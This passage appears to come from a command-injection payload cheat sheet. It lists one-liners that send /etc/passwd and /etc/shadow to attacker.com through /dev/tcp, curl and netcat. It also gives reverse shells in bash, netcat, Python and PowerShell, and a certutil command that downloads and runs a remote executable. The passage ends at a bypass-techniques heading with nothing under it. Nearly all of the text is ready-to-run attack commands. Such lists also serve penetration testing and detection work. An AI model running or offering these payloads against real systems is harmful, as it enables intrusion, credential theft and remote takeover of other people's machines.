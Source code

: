 ### Data Exfiltration

Methods to extract data from the system:

```bash
# File reading
$(cat /etc/passwd > /dev/tcp/attacker.com/4444)
; base64 /etc/shadow | curl -d @- http://attacker.com

# System enumeration
; find / -perm -4000 2>/dev/null
; netstat -an | nc attacker.com 4444
```

### Reverse Shell Payloads

#### Basic Reverse Shells

```bash
# Bash reverse shell
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

# Netcat reverse shell
nc -e /bin/sh 10.0.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Windows Reverse Shells

```powershell
# PowerShell reverse shell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# Certutil download and execute
certutil -urlcache -split -f http://10.0.0.1/shell.exe C:\Windows\Temp\shell.exe && C:\Windows\Temp\shell.exe
```

## Bypass Techniques

### Blacklist Bypass

Used when specific commands or characters are blacklisted:
